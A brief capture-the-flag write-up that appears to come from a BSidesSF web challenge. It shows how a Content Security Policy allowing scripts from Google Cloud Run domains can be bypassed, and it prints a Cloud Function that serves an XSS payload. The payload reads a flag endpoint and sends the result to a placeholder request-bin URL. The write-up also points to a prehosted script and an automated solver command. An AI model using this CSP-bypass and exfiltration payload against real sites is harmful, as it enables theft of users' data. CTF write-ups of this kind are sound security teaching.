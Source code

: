 The CSP allows us to source Javascript files from `*.us-central1.run.app`. 
`` default-src 'self'; 
   script-src 'self' '*.us-central1.run.app';
   connect-src *; 
   style-src-elem 'self' fonts.googleapis.com fonts.gstatic.com; 
   font-src 'self' fonts.gstatic.com fonts.googleapis.com ``

This is the domain used by Google Cloud Run and Cloud Functions. So you can deploy a function to return Javascript code. 
``` 
def serveIt(request):
   
    request_json = request.get_json(silent=True)
    request_args = request.args

    if request_json and 'name' in request_json:
        name = request_json['name']
    elif request_args and 'name' in request_args:
        name = request_args['name']
    else:
        name = 'World'

    return """  
            var xhr = new XMLHttpRequest();
            xhr.open('GET',location.origin + '/xss-two-flag',true);
            xhr.onload = function () {
                var request = new XMLHttpRequest();
                request.open('GET','<REQUEST_BIN_URL>?flag=' + xhr.responseText,true);
                request.send()};
            xhr.send(null);
    """ 
 ```

 You can use the prehosted script at `<script src="https://javascript-server-808630243113.us-central1.run.app"> </script>` to test the challenge. 

 Or use the automated solution, `python3 server.py https://web-tutorial-2-4b27d232.challenges.bsidessf.net`. 